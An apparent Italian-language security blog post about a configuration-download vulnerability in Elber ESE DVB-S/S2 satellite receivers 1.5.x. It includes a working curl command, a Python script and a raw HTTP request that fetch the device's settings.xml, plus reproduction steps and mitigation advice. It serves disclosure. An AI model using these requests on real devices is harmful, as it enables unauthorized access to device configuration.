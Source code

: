 ```yaml
---
layout: post
title: '[webapps] Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Device Config' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# Titolo dell'articolo: [webapps] Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Vulnerabilità nella Configurazione del Dispositivo

## Introduzione
Una vulnerabilità è stata identificata nei ricevitori satellitari Elber ESE DVB-S/S2 versione 1.5.x. La vulnerabilità risiede nella configurazione del dispositivo, rendendo possibile un attacco di tipo remoto.

## Dettagli della Vulnerabilità
La vulnerabilità si trova nella configurazione del dispositivo. Questo significa che un attaccante può sfruttare questa vulnerabilità per ottenere accesso non autorizzato al dispositivo. Le versioni del software interessate sono tutte quelle della serie 1.5.x.

## Esempio di Payload Semplice

```bash
$ curl -k -X 'GET' \
  'https://target/fto/downloadFile?path=/mnt/mmcblk1p1/system/settings.xml'
```

## Conversione in Python del Payload Semplice

```python
import requests

url = "https://target/fto/downloadFile?path=/mnt/mmcblk1p1/system/settings.xml"
response = requests.get(url, verify=False)
print(response.text)
```

## Spiegazione Tecnica
Il comando `curl` è un comando UNIX che permette di fare richieste HTTP da linea di comando. La bandiera `-k` indica che `curl` dovrebbe accettare i certificati SSL non sicuri, mentre `-X 'GET'` indica il metodo HTTP da utilizzare (GET in questo caso). Infine, l'URL è l'indirizzo del target da attaccare.

Lo script Python equivalente utilizza il modulo `requests` per fare la richiesta GET. `verify=False` serve per disabilitare la verifica SSL, e `print(response.text)` serve per stampare la risposta del server.

## Procedura per Riprodurre la Vulnerabilità
1. Identificare il target (l'indirizzo IP del dispositivo Elber ESE DVB-S/S2).
2. Utilizzare il comando `curl` o lo script Python per fare una richiesta GET all'URL del target.

## Richiesta HTTP
```http
GET /fto/downloadFile?path=/mnt/mmcblk1p1/system/settings.xml HTTP/1.1
Host: target
```

## Impatto della Vulnerabilità
Questa vulnerabilità può permettere a un attaccante di ottenere accesso non autorizzato al dispositivo e alle sue impostazioni, con le potenziali conseguenze che ne derivano, come ad esempio l'alterazione dei dati di configurazione.

## Patch e Mitigazioni
Al momento della pubblicazione di questa vulnerabilità, non è stata rilasciata alcuna patch da parte del produttore. Si raccomanda di monitorare il sito del produttore per eventuali aggiornamenti. Nel frattempo, si raccomanda di limitare l'accesso alla rete alla quale il dispositivo è connesso.

## Conclusione
Questa vulnerabilità sottolinea l'importanza di mantenere aggiornati i dispositivi di rete e di implementare adeguate misure di sicurezza, in particolare quando si tratta di dispositivi connessi alla rete. La prontezza nel rilasciare patch di sicurezza da parte dei produttori è di importanza cruciale per limitare il rischio di vulnerabilità.

